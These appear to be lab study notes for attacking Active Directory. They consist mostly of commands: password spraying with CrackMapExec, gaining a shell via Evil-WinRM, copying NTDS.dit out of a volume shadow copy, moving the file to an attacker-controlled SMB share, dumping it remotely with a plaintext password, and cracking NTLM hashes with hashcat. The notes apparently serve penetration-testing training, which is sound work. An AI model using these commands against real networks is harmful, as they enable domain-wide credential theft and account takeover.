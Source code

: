 # Attacking Active Directory & NTDS.dit
## Dictionary Attacks against AD accounts using CrackMapExec
### Launching the Attack with CrackMapExec

`crackmapexec smb 10.129.201.57 -u jmarston -p /usr/share/wordlists/fasttrack.txt`

## Capturing NTDS.dit
**Connecting to a DC with Evil-WinRM**

**Checking Local Group Membership**
We are looking to see if the account has local admin rights. To make a copy of the NTDS.dit file, we need local admin (Administrators group) or Domain Admin (Domain Admins group) (or equivalent) rights. We also will want to check what domain privileges we have.

```
PS > net localgroup
```

**Checking User Account Privileges including Domain**
```
PS > net user bwilliamson
```

**Creating Shadow Copy of C:**
```
PS > vssadmin CREATE SHADOW /For=C:
```

**Copying NTDS.dit from the VSS**
```
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```

**Transferring NTDS.dit to Attack Host**
```
PS > cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData 
```

## A Faster Method: Using cme to Capture NTDS.dit
```
$ crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```

## Cracking Hashes & Gaining Credentials
```
$ sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```